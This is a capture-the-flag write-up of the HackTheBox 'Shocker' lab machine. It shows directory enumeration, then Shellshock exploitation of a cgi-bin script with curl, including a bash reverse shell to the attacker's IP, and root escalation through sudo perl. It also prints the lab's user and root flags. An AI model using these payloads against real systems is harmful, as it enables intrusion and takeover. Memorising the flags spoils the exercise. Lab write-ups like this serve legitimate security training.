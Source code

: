 ```yaml
---
title: HackTheBox - Shocker
author: yufong
categories: [HackTheBox, HackTheBox - Linux]
date: 2022-08-20
tags: [exploit/shell-shock, linux-priv-esc/sudo/gtfo-bin ]
img_path: /Writeups/HackTheBox/Linux/Shocker/images/
image:
  src: Pasted%20image%2020220820044938.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```




# Overview 
This machine begins w/ a web directory enumeration, finding a `cgi-bin/` directory, and by further enumerating the found directory (`cgi-bin/`), a bash script is found, allowing us to use an exploit called shellshock to execute commands, obtaining a low-privilege shell/`shelly `shell.

On the system, the `shelly` has a sudoers entry that allows `shelly` to execute `perl` as `root`, which is exploitable allowing us to spawn a `root` shell.

---

| Column       | Details     |
| ------------ | ----------- |
| Box Name     | Shocker     |
| IP           | 10.10.10.56 |
| Points       | -           |
| Difficulty   | Easy        |
| Creator      | [mrb3n](https://www.hackthebox.com/home/users/profile/2984)            |
| Release Date |   30-Sep-2017          |


# Recon


## TCP/80 (HTTP)
### FFUF
```
                        [Status: 200, Size: 137, Words: 9, Lines: 10]
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]
cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]
index.html              [Status: 200, Size: 137, Words: 9, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
```
- `cgi-bin` directory is found

# Initial Foothold

## TCP/80 (HTTP) - Shell Shock
1. Since the machine is called `Shocker` and we find a `cgi-bin` directory, it is very likely our initial foothold is obtained via [shellshock](https://yufongg.github.io/posts/Shellshock-via-cgi-bin/)
2. Enumerate `cgi-bin` directory, [specifying scripting language extensions](https://en.wikipedia.org/wiki/Scripting_language)
	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# ffuf -u http://shocker.htb/cgi-bin/FUZZ -w /usr/share/wordlists/dirb/common.txt -e '.cgi,.pl,.sh,.ps1,.py,.php'
	
	user.sh                 [Status: 200, Size: 118, Words: 19, Lines: 8]
	```
	- `user.sh`
3. Attempt shellshock on `/cgi-bin/user.sh`
	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://shocker.htb/cgi-bin/user.sh
	shelly
	
	```
4. Obtain a shell
	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' http://shocker.htb/cgi-bin/user.sh
	```
	![](Pasted%20image%2020220820043637.png)
5. User Flag
	![](Pasted%20image%2020220820043857.png)
	- `2ec24e11320026d1e70ff3e16695b233`

# Privilege Escalation

## Root - Via SUDO GTFOBins 
1. Check `shelly` sudo access
	- `/usr/bin/perl`
		- Perl has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/perl/#sudo)
2. Exploit and Obtain Root Flag
	```
	sudo perl -e 'exec "/bin/sh";'
	```
	![](Pasted%20image%2020220820044027.png)
	- `52c2715605d70c7619030560dc1ca467`
3. Change password of `root` & SSH to obtain `root` user
	```
	# passwd  
	Enter new UNIX password: 
	Retype new UNIX password: 
	```
	![](Pasted%20image%2020220820044452.png)
